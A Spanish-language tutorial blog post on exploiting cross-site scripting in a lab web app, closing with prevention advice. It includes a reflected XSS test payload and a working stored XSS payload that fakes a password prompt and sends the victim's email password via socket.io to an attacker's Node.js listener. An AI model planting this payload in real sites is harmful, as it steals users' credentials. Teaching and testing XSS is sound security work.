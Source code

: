 ```yaml
---
layout: post
title:  "Como realizar una inyeccion XSS y obtener credenciales"
description: "Explotando los 10 riesgos mas criticos segun el OWASP VI"
date:   2019-07-15
image:  "img/OwaspTopTen.jpg"
tags:   [Inyeccion XSS, Pentesting WEB, Hacking NodeJS]
---
```


Hello Engineers!  
En el dia de hoy, vamos a aprender acerca de una debilidad muy usual y critica en las aplicaciones web.  

**A7-Cross-site Scripting**  
XSS es el acrónimo usado para “Cross Site Scripting”.   
Es un tipo de vulnerabilidad de los aplicativos web, el cual puede permitir a un atacante inyectar código JavaScript u otro lenguaje similar sobre dicha página web.  
Las fallas que permiten que estos ataques tengan éxito están bastante extendidas y ocurren en cualquier lugar en que una aplicación web utiliza la entrada de un usuario.   

Los daños de un ataque XSS pueden ser los siguientes:  

  - Robar de sesion.  
  - Redireccionar a sitios de phishing, o a páginas falsas.  
  - Descarga de software malicioso.  
  - Keyloggers.  
  - y otros tipos de ataques del lado cliente.  

## Conceptos Basicos  
Existen tres formas usuales de XSS para atacar a los navegadores de los usuarios:  

**XSS Reflejado**  
Es el más común de los tipos de XSS, sucede cuando una aplicación o API utiliza datos sin validar, suministrados por un usuario y codificados como parte del HTML o Javascript de salida. Un ataque exitoso permite al atacante ejecutar comandos arbitrarios (HTML y Javascript) en el navegador de la víctima.   
Típicamente el usuario deberá interactuar con un enlace, o alguna otra página controlada por el atacante, publicidad maliciosa, entre otros.   

**XSS Almacenado**  
Si el código que hemos insertado se queda almacenado en el servidor, por ejemplo formando parte de una contribución en un foro, el ataque se dice que es persistente o almacenado.    
Un ataque XSS persistente puede tener lugar en el caché de una aplicación web o en una base de datos conectada de dichos sitios web. Los ataques persistentes siempre están en el lado del servidor y tienen un gran riesgo potencial.  

**XSS Basados en DOM:**  
Este tipo de XSS es en el que la carga útil de ataque se ejecuta como resultado de la modificación del DOM "entorno" en el navegador de la víctima.    

## Explotando las vulnerabilidades mas criticas en aplicaciones WEB.  
## XSS Reflejado  
**Escenario de la prueba #1:**   
Vamos aprender a explotar esta vulnerabilidad por medio de un formulario que realiza busqueda sobre registros previamente ingresados.  

Inicialmente vamos a dirigirnos al apartado para realizar la prueba de inyeccion de XSS reflejada.  
**http://172.17.0.2:9090/app/products**  


<figure>
  <img src="{{site.baseurl}}/img/xss.png" >
	<figcaption>
    <a href="{{site.baseurl}}/img/xss.png" title="Formulario con un campo de búsqueda">Formulario con un campo de búsqueda</a>.
  </figcaption>
</figure>

El aplicativo web anterior se compone de una tabla de registros y un campo para realizar consultas o busqueda sobre dicha tabla.  
Vamos a realizar una inyeccion de codigo javascript usando este campo.  
La carga util "maliciosa" que usaremos es la siguiente:  

{% highlight html %}
<script>alert("Hacked By Gerh")</script>  
{% endhighlight %}    

A continuacion, doy a mostrar el paso a paso para encontrar un formulario vulnerable a inyecciones XSS.  

<figure>
  <img src="{{site.baseurl}}/img/xss-reflejected.gif" >
	<figcaption>
    <a href="{{site.baseurl}}/img/xss-reflejected.gif" title="Analizando un campo de busqueda vulnerable a XSS">Analizando un campo de busqueda vulnerable a XSS</a>.
  </figcaption>
</figure>

## XSS Almacenado  
**Escenario de la prueba #2:**   
En el escenario anterior aprendimos a realizar una inyeccion XSS reflejada, la cual como se podia apreciar no era persistente debido a que las consultas realizadas no es un dato que se este almacenando en una base de datos.  
El formulario anterior expuesto permite el ingreso de nuevos productos, los cuales son registros que deben estar almacenados en una base de datos.   


<figure>
  <img src="{{site.baseurl}}/img/xss-stored.png" >
	<figcaption>
    <a href="{{site.baseurl}}/img/xss-stored.png" title="Analizando posibles registros de la base de datos">Analizando posibles registros de la base de datos</a>.
  </figcaption>
</figure>

En vez de guardar algun registro con palabras normales, vamos a ingresar el siguiente payload.  

{% highlight html %} 
<!-- Importamos la libreria de socket.io -->
<script src="https://cdnjs.cloudflare.com/ajax/libs/socket.io/2.2.0/socket.io.dev.js" integrity="sha256-i2Orhi397HWPn93rsCUTW8HBoso65vY/VNTllm9Kuqo=" crossorigin="anonymous"></script> 

<script>
  /* Desplegamos una entrada de texto y solicitamos un dato confidencial para almacenarlo en la variable PassVictim */ 
  var PassVictim = prompt("Por favor ingresa tu contraseña del correo para continuar!", "******");
  alert("Gracias por tu colaboracion")

  /* Le indicamos a socker.io a donde nos vamos a conectar */ 
  var socket = io.connect('http://localhost:8080');
  /* Emitimos un mensaje hacia el servidor concatenando la variable PassVictim, la cual tiene el dato confidencial. */
  socket.emit('message', 'Account Hacked!!  \n' + PassVictim);
</script>  
{% endhighlight %}    

En nuestra maquina atacante, vamos a crear un pequeño servidor con nodejs y codificamos lo siguiente:  
Si desear saber la explicacion a mas detalle con relacion a este desarrollo te invito al siguiente [POST]().  

{% highlight js %}  
var http = require('http');
var fs = require('fs');
var server = http.createServer(function(req, res) {
    fs.readFile('./index.html', 'utf-8', function(error, content) {
        res.writeHead(200, {"Content-Type": "text/html"});
        res.end(content);
    });
});
var io = require('socket.io').listen(server);
io.sockets.on('connection', function (socket) {
    socket.emit('message', 'You are connected!');
    socket.on('message', function (message) {
        console.log(message);
    }); 
});

server.listen(8080);
{% endhighlight %}    

Listo, hemos logrado crear un script para realizar phising aprovechandonos de una inyeccion XSS almacenada.  
A continuacion, vamos a ver el comportamiento de lo previamente construido.  

<figure>
  <img src="{{site.baseurl}}/img/xss-stored.gif" >
	<figcaption>
    <a href="{{site.baseurl}}/img/xss-stored.gif" title="Realizando un phising con una inyeccion XSS almacenada">Realizando un phising con una inyeccion XSS almacenada</a>.
  </figcaption>
</figure>

Incluso si cerramos la sesion y salimos de la aplicacion, Cuando entremos nuevamente se ejecutara el script debido a que esta almacenado en una base de datos.  

## Recomendaciones  
Prevenir XSS requiere mantener los datos no confiables separados del contenido activo del navegador.  
  - Utilizar frameworks seguros que, por diseño, automáticamente codifican el contenido para prevenir XSS, como en Ruby 3.0 o React JS.  
  - Codificar los datos de requerimientos HTTP no confiables en los campos de salida HTML (cuerpo, atributos, JavaScript, CSS, o URL) resuelve los XSS Reflejado y XSS Almacenado.     
  - Habilitar una Política de Seguridad de Contenido (CSP) es una defensa profunda para la mitigación de vulnerabilidades XSS, asumiendo que no hay otras vulnerabilidades que permitan colocar código malicioso vía inclusión de archivos locales, bibliotecas vulnerables en fuentes conocidas almacenadas en Redes de Distribución de Contenidos (CDN) o localmente.  

## Aprende hacking explotando las vulnerabilidades mas criticas en aplicaciones WEB.  

 - [A1: Inyección](https://hackingprofessional.github.io/Security/Como-realizar-una-inyeccion-SQL-OWASP-I)   
 - [A2: Pérdida de Autenticación](https://hackingprofessional.github.io/Security/Perdida-de-autenticacion-y-exposicion-de-datos-OWASP-II)  
 - [A3: Exposición de datos sensibles](https://hackingprofessional.github.io/Security/Perdida-de-autenticacion-y-exposicion-de-datos-OWASP-II)  
 - [A4: Entidades Externas XML (XXE)](https://hackingprofessional.github.io/Security/Como-realizar-una-inyeccion-XML-OWASP-III)  
 - [A5: Pérdida de Control de Acceso](https://hackingprofessional.github.io/Security/Evadiendo-controles-de-acceso-OWASP-IV)  
 - [A6: Configuración de Seguridad Incorrecta](https://hackingprofessional.github.io/Security/El-riesgo-de-las-Configuraciones-Incorrectas-de-Seguridad-OWAPS-V/)  
 - [A7: Secuencia de Comandos en Sitios Cruzados (XSS)](https://hackingprofessional.github.io/Security/Aprende-a-realizar-una-inyeccion-XSS-OWASP-VI)  
 - [A8: Deserialización Insegura](https://hackingprofessional.github.io/Security/Aprende-que-es-Deserializacion-Insegura-OWASP-VII/)  
 - [A9: Componentes con vulnerabilidades conocidas](https://hackingprofessional.github.io/Security/Explotando-vulnerabilidades-conocidas-OWASP-VIII)  
 - [A10: Registro y Monitoreo Insuficientes](https://hackingprofessional.github.io/Security/Explotando-vulnerabilidades-conocidas-OWASP-VIII)  


 [Para mas informacion leer el siguiente PDF publicado por el OWASP](https://www.owasp.org/images/5/5e/OWASP-Top-10-2017-es.pdf)